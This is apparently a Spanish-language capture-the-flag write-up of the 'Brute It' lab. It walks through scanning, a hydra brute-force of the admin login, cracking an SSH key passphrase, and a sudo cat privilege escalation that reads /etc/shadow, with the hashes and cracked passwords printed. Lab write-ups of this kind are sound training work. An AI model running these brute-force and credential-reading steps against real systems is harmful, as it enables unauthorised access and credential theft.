 # Brute It

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works

```
## Enum
### HTTP
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/admin (Status: 301)
``` 
En /admin tenemos un login panel y vemos este comentario
```
    <!-- Hey john, if you do not remember, the username is admin -->
```
Tenemos el user

## Exploit
### HTTP Brute Forcing
Con el user y el endpoint podemos hacer lo siguiente:
```
hydra -l admin -P rockyou.txt 10.10.65.214 http-post-form '/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid' 
[80][http-post-form] host: 10.10.65.214   login: admin   password: xavier
```
Ahora nos podemos descargar una key para entrar con ssh, obtendremos la pass gracias a ssh2john y rockyou
```
rockinroll       (id_rsa)
```
Con eso nos podemos logear a la maquina

## Privesc
```
User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```
Con esto podemos leer /etc/shadow
```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
thm:$6$hAlc6HXuBJHNjKzc$NPo/0/iuwh3.86PgaO97jTJJ/hmb0nPj8S/V6lZDsjUeszxFVZvuHsfcirm4zZ11IUqcoB9IEWYiCV.wcuzIZ.:18489:0:99999:7:::
```
Si lo crackeamos veremos que la contraseña del root es football
